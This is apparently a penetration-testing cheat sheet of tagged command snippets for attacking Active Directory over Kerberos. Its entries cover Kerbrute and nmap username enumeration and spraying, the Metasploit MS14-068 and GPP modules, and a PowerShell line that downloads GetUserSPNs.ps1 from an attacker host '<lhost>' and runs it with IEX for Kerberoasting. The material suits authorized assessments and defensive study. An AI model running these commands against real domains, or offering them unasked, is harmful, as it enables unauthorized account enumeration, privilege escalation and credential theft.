 # kerberos

% kerberos

## Kerbrute usersenum
#assessment/AD #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY 
```
./kerbrute_linux_amd64 userenum -d <domain> --dc <ip> <users_file>
```

## kerberos enum users
#assessment/AD #target/remote #port/88 #protocol/kerberos #cat/RECON 
```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>'" <ip>
```

## kerberos enum users (with user list)
#assessment/AD #target/remote #port/88 #protocol/kerberos #cat/ATTACK/BRUTEFORCE-SPRAY
```
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='<domain>',userdb=<users_list_file>" <ip>
```

## kerberos ms14-068
#assessment/AD #target/remote #port/88 #protocol/kerberos #cat/ATTACK/EXPLOIT 
```
msfconsole -x "use auxiliary/admin/kerberos/ms14_068_kerberos_checksum"
```

## exploit gpp - group policy preference (ms14-025)
#assessment/AD #target/remote #port/88 #protocol/kerberos #cat/RECON 
```
msfconsole -x "use scanner/smb/smb_enum_gpp"
```

## powershell - get user SPN
#assessment/AD #target/remote #port/88 #protocol/kerberos #cat/RECON 

https://github.com/nidem/kerberoast
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/GetUserSPNs.ps1') | IEX
```
